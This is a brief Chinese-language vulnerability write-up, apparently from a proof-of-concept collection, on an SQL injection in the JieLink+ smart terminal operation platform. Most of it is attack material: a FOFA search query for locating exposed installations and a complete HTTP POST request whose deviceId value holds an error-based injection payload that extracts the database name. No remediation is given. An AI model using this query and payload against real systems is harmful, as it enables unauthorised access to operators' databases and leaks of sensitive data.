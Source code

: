 ## JieLink+智能终端操作平台存在sql注入漏洞

jieLink+智能终端操作平台deviceId参数存在sql注入漏洞，攻击者利用此漏洞可导致数据库的敏感信息泄露。

## fofa

```
title="JieLink+智能终端操作平台"
```
![image](https://github.com/user-attachments/assets/60ef1377-ee32-42fe-a1ae-42963d2e78bc)


## poc

```
POST /mobile/Remote/GetParkController HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: DefaultSystem=Mobile; ASP.NET_SessionId=533gfzuselgriachdgogkug5
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
 
deviceId=1'and/**/extractvalue(1,concat(char(126),database()))and'
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031649500.png)
